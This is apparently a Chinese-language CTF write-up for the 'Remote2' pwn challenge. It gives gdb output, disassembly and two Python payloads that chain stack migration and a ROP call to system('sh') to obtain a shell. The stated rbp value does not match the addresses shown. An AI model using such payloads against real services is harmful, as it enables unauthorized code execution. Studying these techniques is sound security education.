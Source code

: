 Remote2
==========
這題在比賽當天沒有想出來，後來看到別人的想法才摸出來的，不過實作上也花了一些時間...
主要用到 stack migration 和 ROP 來做。

解題流程
----------
程式一開始會執行 "lsh"，之後逐字讀取 64bytes 到 buffer 上，然後就馬上 retuen。
先用 gdb 觀察一下 buffer 和 rbp 的距離，rbp此時為 0x7ffc98f88e1。

	(gdb) x/10gx $rsp
	0x7fffffffdf50: 0x4141414141414141      0x0000000000000000
	0x7fffffffdf60: 0x00000000004005c0      0x0000000000400470
	0x7fffffffdf70: 0x00007fffffffe060      0x0000000800000000
	0x7fffffffdf80: 0x00000000004005c0      0x00007ffff7a58730
	0x7fffffffdf90: 0x0000000000000000      0x00007fffffffe068

可以發現 64bytes 只夠我們剛好塞到 retuen address，後面沒有空間放其他 gadget。所以我們將要做的事分成兩次送。

第一輪我們先利用 stack migration 把 rbp 引導到自己找的 buffer 上，並 retuen 回 main 裡面讀取字元的程式區塊，將 ROP chain 讀到新的 buffer 上。
```python
'A'*44 + '\x2c\x00\x00\x00' + p64(buf+0x80) + p64(main_read)
```

可以讀到新的 buffer 上是因為程式為由 rbp 為基準，推算出區域變數的位置。所以 rbp 一改，buffer 的位址也跟著變了。
<pre>
400582:       8b 45 fc                mov    eax,DWORD PTR [<b>rbp-0x4</b>]
400585:       48 8d 55 d0             lea    rdx,[<b>rbp-0x30</b>]
400589:       48 01 d0                add    rax,rdx
40058c:       ba 01 00 00 00          mov    edx,0x1
400591:       48 89 c6                mov    rsi,rax
400594:       bf 00 00 00 00          mov    edi,0x0
400599:       e8 a2 fe ff ff          call   400440 <read@plt>
</pre>
----------
另外有個地方要特別注意，由於這題是一個字一個字讀輸入，我們在蓋 buffer 時會把位於 rbp-0x4，
用來計數的值寫掉。
<pre>
0x7fffffffdf70: 0x00007fffffffe060      0x<b>00000008</b>00000000
</pre>
這會導致程式沒辦法正確判斷你讀了幾 byte 以及該讀去哪個位置。所以蓋到這邊的時候，必須將該位址原本的值再寫上去。

----------
最後，利用 leave ret 的 gadget 將 rsp 指到 ROP chain 上，並跳進第一個 gadget 開始跑，就可以拿到 shell 了！
```python
'A'*7 + p64(pop_rdi_ret) + p64(sh) + p64(system) + 'A'*12 + '\x2c\x00\x00\x00' + p64(buf+0x80-0x30) + p64(leave_ret)
```
